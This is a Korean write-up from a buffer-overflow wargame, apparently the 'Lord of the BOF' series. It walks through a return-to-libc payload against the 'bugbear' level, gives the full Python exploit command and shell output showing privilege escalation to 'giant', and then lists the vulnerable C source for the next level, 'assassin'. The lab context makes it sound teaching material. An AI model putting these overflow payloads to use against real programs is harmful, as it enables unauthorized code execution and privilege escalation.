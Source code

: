 mainret 다음 주소가 execveret 인 이유는 main에서 ret을 했을 때 esp가 가리키고 있는 주소는 execveret 위치일 것이고 이것은 execve 함수 내부에서는 call을 했을 때 쌓인 ret address라고 생각할 것이기 때문이다.

payload 를 구성하면 다음과 같다.

"A"*44 (dummy) + execve 주소 + system 주소 + "AAAA" + /bin/sh 주소

/home/bugbear/giant "`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"+"AAAA"+"\xf9\xbf\x0f\x40"'`"


여기서 문제점이 있는데 "\x0a" 는 엔터로 문자열의 끝을 의미한다. 따라서 argv[1] 전체를 "" 로 묶어주어야한다.

``` bash2
[bugbear@localhost bugbear]$ /home/bugbear/giant "`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"+"AAAA"+"\xf9\xbf\x0f\x40"'`"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAH?
@?@AAAA廈@
bash$ id     
uid=513(bugbear) gid=513(bugbear) euid=514(giant) egid=514(giant) groups=513(bugbear)
bash$ my-pass
euid = 514
one step closer
```

# giant

password is one step closer

### Problem

``` bash2
[giant@localhost giant]$ cat assassin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - assassin
        - no stack, no RTL
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack retbayed you!\n");
		exit(0);
	}

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

```